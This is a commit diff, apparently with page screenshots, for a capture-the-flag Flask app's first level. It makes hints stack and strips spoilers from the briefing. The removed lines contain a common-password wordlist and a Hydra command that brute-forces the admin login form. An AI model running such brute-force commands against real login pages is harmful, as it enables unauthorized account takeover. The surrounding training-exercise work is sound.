

Before and after one commit to DarthMayan/NexusCorp_CTF, a Flask app: page /level/1 in a window 1280 px wide. Shown: the top 991 px of the page at 96% size. Run offline with Flask 3, Linux system fonts and the light colour scheme; a user stored in the database is signed in; data comes from the database, SQL or seed files in the repository.

Commit message:
improve(level1): simplify briefing, stack hints instead of replacing
- Remove tool commands from briefing — description only, no spoilers
- Hints now append below each other instead of replacing on each click

```diff
--- a/app/static/js/nexus.js
+++ b/app/static/js/nexus.js
@@ -45,7 +45,10 @@ document.addEventListener("DOMContentLoaded", () => {
                 const container = btn.closest(".hint-box");
                 const textEl = container.querySelector(".hint-text");
                 if (json.hint) {
-                    textEl.textContent = `Hint ${hintNum + 1}: ${json.hint}`;
+                    const line = document.createElement("p");
+                    line.style.margin = "0.4rem 0 0";
+                    line.textContent = `Hint ${hintNum + 1}: ${json.hint}`;
+                    textEl.appendChild(line);
                     textEl.style.display = "block";
                     btn.dataset.hintNum = hintNum + 1;
                     if (hintNum + 1 >= json.total) {
@@ -53,7 +56,10 @@ document.addEventListener("DOMContentLoaded", () => {
                         btn.textContent = "No more hints";
                     }
                 } else {
-                    textEl.textContent = "No more hints available.";
+                    const line = document.createElement("p");
+                    line.style.margin = "0.4rem 0 0";
+                    line.textContent = "No more hints available.";
+                    textEl.appendChild(line);
                     textEl.style.display = "block";
                 }
             } catch {
--- a/app/templates/levels/level1.html
+++ b/app/templates/levels/level1.html
@@ -11,36 +11,16 @@
 <div class="briefing">
     <p>
         NEXUS Corp's employee portal is the first line of defense. Intelligence suggests that some employees
-        are using <strong>extremely weak passwords</strong>. Your objective: gain <strong>Administrator</strong> access.
+        are using <strong>extremely weak passwords</strong>.
     </p>
     <p>
-        The login endpoint accepts POST requests at <code>/level/1/login</code> with fields
-        <code>username</code> and <code>password</code>. Successful admin login reveals the flag.
+        <strong>Your objective:</strong> gain Administrator access.
     </p>
     <p>
-        Use <strong>Hydra</strong> to brute-force the login. Since the target runs behind a tunnel,
-        create a <strong>short custom wordlist</strong> with the most common weak passwords —
-        wordlists with millions of entries will hit connection limits before finding the answer.
+        The login endpoint accepts <code>POST</code> requests at <code>/level/1/login</code> with fields
+        <code>username</code> and <code>password</code>. A successful Administrator login reveals the flag.
     </p>
-    <div style="margin-top:0.8rem; padding:0.8rem; background:rgba(0,240,255,0.05); border:1px solid var(--nx-accent-dim); border-radius:var(--nx-radius); font-family:var(--nx-font-mono); font-size:0.78rem;">
-        <span style="color:var(--nx-accent);"># Step 1 — Create your wordlist</span><br>
-        cat &gt; wordlist.txt &lt;&lt; 'EOF'<br>
-        123456<br>
-        password<br>
-        12345<br>
-        qwerty<br>
-        letmein<br>
-        admin<br>
-        welcome<br>
-        monkey<br>
-        dragon<br>
-        master<br>
-        EOF<br><br>
-        <span style="color:var(--nx-accent);"># Step 2 — Launch the attack</span><br>
-        hydra -l admin -P wordlist.txt TARGET https-post-form<br>
-        &nbsp;&nbsp;"/level/1/login:username=^USER^&amp;password=^PASS^:S=Administrator"<br>
-        &nbsp;&nbsp;-V -t 1 -f
-    </div>
+
 </div>
 
 <!-- The actual vulnerable login form -->
```
